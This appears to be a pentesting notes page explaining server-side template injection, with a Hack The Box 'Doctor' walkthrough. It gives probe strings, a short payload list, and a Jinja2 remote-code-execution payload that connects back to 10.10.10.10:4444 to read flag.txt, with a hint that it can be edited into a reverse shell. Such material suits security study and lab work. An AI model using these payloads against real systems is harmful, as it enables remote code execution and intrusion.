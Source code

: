 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

SSTI exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## How it Works

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, we can follow this flowchart:

<figure><img src="../.gitbook/assets/image (10) (1) (4).png" alt=""><figcaption></figcaption></figure>

A successful injection would result in '49' being output, showing that the website does indeed process the template injected and confirming that we have RCE.

## Example

The HTB machine Doctor has a good SSTI vulnerability within it.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.&#x20;

<figure><img src="../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>

We can straightaway begin testing for SSTI via this. After using `{{7*7}}`, we would see the following:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would dispaly this:

<figure><img src="../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, we would know that the website is running on either Jinja2 or Twig. We can then grab a payload for potential RCE using PayloadAllTheThings:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```

Editing the payload to give us a reverse shell would work on this machine.&#x20;

SSTI is rather easy to exploit once found. Here are some other payloads that we can use:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

Once the template has been identified, attempt exploitation via the relevant payload.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
